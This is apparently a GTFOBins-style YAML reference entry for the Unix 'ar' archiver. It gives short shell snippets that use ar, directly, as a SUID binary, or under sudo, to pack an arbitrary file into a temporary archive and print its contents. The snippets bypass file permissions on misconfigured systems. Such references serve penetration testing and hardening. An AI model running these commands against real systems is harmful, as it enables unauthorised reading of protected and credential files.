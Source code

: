 ```yaml
---
description: The file appears amid the binary content of the archive.
functions:
  file-read:
    - code: |
        OUTFILE=$(mktemp -u)
        LFILE=file_to_read
        ar r "$OUTFILE" "$LFILE"
        cat "$OUTFILE"
  suid:
    - code: |
        OUTFILE=$(mktemp -u)
        LFILE=file_to_read
        ./ar r "$OUTFILE" "$LFILE"
        cat "$OUTFILE"
  sudo:
    - code: |
        OUTFILE=$(mktemp -u)
        LFILE=file_to_read
        sudo ar r "$OUTFILE" "$LFILE"
        cat "$OUTFILE"
---
```

